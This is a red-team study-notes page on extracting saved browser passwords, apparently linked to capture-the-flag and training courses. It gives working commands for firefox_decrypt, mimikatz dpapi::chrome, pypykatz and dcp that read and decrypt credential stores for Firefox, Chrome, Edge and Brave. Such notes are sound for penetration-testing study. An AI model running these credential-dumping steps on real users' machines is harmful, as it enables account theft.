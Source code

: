 # Browser Saved Passwords

<div class="row row-cols-lg-2"><div>

#### Extract Firefox Saved Passwords

[![password_attacks](../../../_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)
[![file_insecure_storage_1](../../../_badges/rootme/cryptanalysis/file_insecure_storage_1.svg)](https://www.root-me.org/en/Challenges/Cryptanalysis/File-Insecure-storage-1)

Mozilla Firefox passwords can be extracted and cracked using [firefox_decrypt](https://github.com/unode/firefox_decrypt) <small>(1.8k ⭐)</small>. To install it on Kali:

```ps
$ cd /opt
$ git clone https://github.com/unode/firefox_decrypt.git
$ cd firefox_decrypt
$ python3.9 firefox_decrypt.py -h
$ python3.9 firefox_decrypt.py /tmp/.mozilla/firefox/
```

Additional notes:

```ps
$ ls -l .mozilla/firefox/ | grep default
$ cat .mozilla/firefox/xxx.default-release/logins.json | jq.
```

#### Extract Chrome Dictionaries

[![windows_privilege_escalation](../../../_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)

Users may have added some sensitive information inside their personal browser dictionary <small>(email/username/...)</small>.

```ps
PS> ls "$Env:localappdata/Google/Chrome/User Data/Default/Custom Dictionary.txt"
```
</div><div>

#### Extract Chrome, Edge, and Brave Saved Passwords

[![chrome](../../../_badges/thm-p/chrome.svg)](https://tryhackme.com/room/chrome)

On Windows, you can find the user browser sensitive files at:

```text!
AppData\Local\Microsoft\Edge\User Data
AppData\Local\Google\Chrome\User Data
AppData\Local\BraveSoftware\Brave-Browser\User Data\
```

* **Decrypt on Windows** using [decrypt-chrome-passwords](https://github.com/ohyicong/decrypt-chrome-passwords/) <small>(0.8k ⭐)</small>

* **Decrypt on Windows** [mimikatz](/cybersecurity/red-team/tools/utilities/creds/mimikatz.md)

For the current user, you can use:

```shell!
mimikatz# dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```

* **Decrypt on Linux** using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md)

Passwords are stored [SQLite](/programming-languages/databases/relational/dbms/sqlite.md) database in `./<profile>/Login Data` such as `./Default/Login Data`. They are encrypted using a base64-encoded key in `./Local State`. You can display it using:

```ps
$ cat "./Local State" | jq | grep "encrypted_key"
"encrypted_key": "<encrypted secret key here>"
```

On Windows, the key is encrypted using [DPAPI master key](/operating-systems/windows/security/index.md#dump-credentials-protected-by-the-dpapi). Once you got it, you can decrypt the database using [pypykatz](/cybersecurity/red-team/tools/utilities/creds/pypykatz.md):

```shell!
$ cat mkf # master kejson file created by pypykatz
{
    "backupkeys": {},
    "masterkeys": {
        "H-I-J-K-L": "master_key_here"
    }
}
$ pypykatz dpapi chrome ./mkf "./Local State" --logindata "./Default/Login Data"
```
</div></div>

<hr class="sep-both">

## Additional Notes

<div class="row row-cols-lg-2"><div>

#### DPAPI Master Key to extract Secret Key 

Once we have the DPAPI master key, we can alternatively decrypt the encrypted secret key, and use it to decrypt the passwords.

On Linux, we can use [dpapilab-ng](https://github.com/tijldeneut/dpapilab-ng/blob/main/blobdec-with-masterkey.py) <small>(0.1k ⭐)</small> to decrypt the secret key and [dcp](https://github.com/palmenas/dcp/tree/main) <small>(0.002k ⭐)</small> to decrypt and dump passwords.

```ps
$ base64 -d > key.enc <<< "<secret key here>"
$ python -c "with open('key.enc', 'rb+') as f: data = f.read(); f.seek(0); f.write(data[5:]); f.truncate()" # remove the DPAPI text at the start of the file
$ pip install dpapick3
$ python3 blobdec-with-masterkey.py key.enc --masterkey "<master key here>"
<secret_key_here>
$ python3 dcp.py -S secret_key_here -P "./Default/Login Data"
```
</div><div>
</div></div>